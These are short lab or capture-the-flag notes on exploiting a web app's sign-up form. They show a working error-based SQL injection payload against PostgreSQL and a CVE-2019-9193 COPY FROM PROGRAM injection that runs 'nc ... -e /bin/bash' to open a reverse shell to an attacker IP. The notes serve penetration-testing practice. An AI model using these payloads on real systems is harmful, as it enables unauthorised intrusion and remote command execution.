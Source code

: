 - Navigate to port 80 and use burpsuite to capture the`sign up for class` request, one can identify that the height parameter is subjected to error-based SQLi.![[Pasted image 20240124193728.png]]
- We can use `cast()` function to leak information within the error message. Using `' and 1=cast((SELECT version())as int) -- //` as height parameter, we can leak the version of PostgreSQL running.
	- Remember to URL-encode!
![[Pasted image 20240124233500.png]]
- `CVE-2019–9193` can be used to achieve RCE. Run `'; COPY cmd_exec FROM PROGRAM 'nc 192.168.45.203 4444  -e /bin/bash'; -- //` to receive reverse shell call back.
	-  Remember to URL-encode!